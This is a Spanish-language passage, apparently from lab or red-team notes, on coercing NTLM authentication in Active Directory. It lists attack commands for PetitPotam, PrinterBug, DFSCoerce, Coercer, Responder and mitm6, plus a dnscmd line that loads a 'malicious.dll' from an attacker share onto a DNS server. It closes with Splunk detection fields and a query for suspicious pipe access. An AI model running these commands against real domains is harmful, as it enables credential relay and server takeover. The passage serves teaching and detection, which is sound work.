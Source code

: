 ```bash
# PrinterBug (MS-RPRN)
python3 printerbug.py essos.local/user:pass@192.168.57.10 192.168.57.151

# PetitPotam (EFSRPC)
python3 PetitPotam.py -u user -p pass -d essos.local 192.168.57.10 192.168.57.151

# Dementor (DRSUAPI)
python3 dementor.py -u user -p pass -d essos.local 192.168.57.10 192.168.57.151

# ShadowCoerce (VSS)
python3 shadowcoerce.py -u user -p pass -d essos.local 192.168.57.10 192.168.57.151

# DFSCoerce (DFSNM)
python3 dfscoerce.py -u user -p pass -d essos.local 192.168.57.10 192.168.57.151

# Coercer (Multiprotocolo, incluye variantes y futuras)
python3 Coercer.py -u user -p pass -d essos.local -t 192.168.57.10 -l 192.168.57.151

# ADIDNS/DNSadmin
dnscmd <DNS-Server> /config /serverlevelplugindll \\192.168.57.151\share\malicious.dll

# Responder (LLMNR/NBT-NS/WPAD/mDNS)
sudo responder -I eth0

# MITM6 (IPv6, WPAD/mDNS/LLMNR)
python3 mitm6.py --ignore-nofqdn -d essos.local

# FSRVPCoerce/SchtasksCoerce/ICPRCoerce
# (Ejemplo genérico, usando Coercer para automatizar)
python3 Coercer.py --method FSRVP --target 192.168.57.10 --listener 192.168.57.151
```

---

## 📊 Detección en logs y SIEM (Splunk)

| Campo clave                     | Descripción                                                                  |
|---------------------------------|------------------------------------------------------------------------------|
| **EventCode = 5145**            | Acceso a recursos compartidos/Pipes nombrados (SMB).                         |
| **ObjectName**                  | Pipe vulnerable: `\efsrpc`, `\spoolss`, `\netdfs`, `\vss`, `\lsarpc`...      |
| **4624/4625/8004**              | Autenticaciones NTLM entrantes/salientes tras el acceso al pipe.             |
| **Client_Address / IpAddress**  | Origen de la petición/relayed authentication.                                |
| **ProcessName**                 | Proceso iniciador (útil con Sysmon).                                         |

### Query Splunk básica (acceso a pipes sospechosos)

```splunk
index=dc_logs sourcetype=WinEventLog:Security EventCode=5145
| search Object_Name="\\pipe\\efsrpc" OR Object_Name="\\pipe\\spoolss" OR Object_Name="\\pipe\\netdfs" OR Object_Name="\\pipe\\vss" OR Object_Name="\\pipe\\lsarpc"
| table _time, ComputerName, SubjectAccountName, Object_Name, IpAddress
```
